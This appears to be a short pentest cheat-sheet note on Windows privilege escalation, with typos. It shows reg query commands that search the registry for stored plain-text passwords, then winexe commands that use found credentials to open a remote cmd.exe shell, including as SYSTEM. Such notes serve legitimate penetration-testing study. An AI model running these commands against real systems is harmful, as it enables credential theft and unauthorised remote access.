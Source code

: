 - - -
**Yupp Password!!!**
Even administrator re-use their passwords, or leave their passwords on the system in a readabe locations.
Windows can be espacially vulnerable to this, as several features of windows store passwords insecurely.

**Registry** → plenty of programs store configuration options in the windows registry.
Windows itself sometimes will stores plain-text passwords in the registry.

It is always worth to searching the reistry for passwords.

The Following commands will search the registry for Keys ans values that contains “passwords”
Note that this will generate lots of results  to So often it is more fruitful to look in known locations.

```
 reg query HKLM /f  password  /t REG_SZ  /s
```

```
 reg query HKCU /f  password  /t REG_SZ  /s
```

**If creds found** :

```sh
winexe -U 'userX%passwordX' //target_ip cmd.exe
```

If you found any **admin** user password. Try this;

```sh
winexe -U 'userX%passwordX' --system //target_ip cmd.exe
```
 - - -





